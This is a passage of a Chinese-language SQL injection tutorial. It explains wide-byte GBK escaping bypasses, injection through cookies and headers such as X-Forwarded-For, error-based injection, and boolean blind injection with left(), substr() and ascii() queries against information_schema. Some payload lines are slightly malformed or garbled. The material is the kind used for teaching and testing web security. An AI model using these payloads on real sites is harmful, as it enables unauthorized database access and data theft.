 1、%df 吃掉 \ 具体的原因是 urlencode(‘) = %5c%27，我们在%5c%27 前面添加%df，形成%df%5c%27， mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字， 此时%df%5c 就是一个汉字， %27 则作为一个单独的符号在外面， 这样就达到了我们的目的。
2、将 \’ 中的 \ 过滤掉， 例如可以构造 %**%5c%5c%27 的情况， 后面的%5c 会被前面的%5c给注释掉。这也是 bypass 的一种方法

3、将utf-8的 ‘ 转换为 �’

�’or 1=1 limit 1,1#

还有很多绕过**引号**、**双引号**、**逗号**、**空格**的方法

#### Cookies

当php会通过cookies中username等字段进行查询时可能存在注入,与POST基本一致,只是注入位置的区别

##### head中

- User-Agent

- Referer

- XFF(X-Forward-For)

  ```
  X-Forward-For：127.0.0.1' select 1,2,user()
  ```

当php会将ip,User-Agent,referer等请求头信息进行存储数据库时,可能存在注入,与POST基本一致,只是注入位置的区别,可以通过浏览器插件、浏览器编辑和重发的功能、抓包等对请求头进行更改

### 按从服务器接收到的响应

#### 显错注入

由于php代码会将mysql中的错误展示在前端，所以很好判断，参考上方GET等

#### 盲注

##### 基于bool

- ▲left(database(),1)>’s’ //left()函数

  Explain:

  - database()显示数据库名称
  - left(a,b)从左侧截取 a 的前 b 位

- ▲ascii(substr((select table_name information_schema.tables where tables_schema

  =database()limit 0,1),1,1))=101 –+ //substr()函数，ascii()函数

  Explain：

  - substr(a,b,c)从 b 位置开始，截取字符串 a 的 c 长度。

  - ascii()将某个字符转换为 ascii 值

  - ascii(substr((select database()),1,1))=98（改变第一个

    1

    和98的值相当于将名字一个个和字母比较，从而得到完整名字）
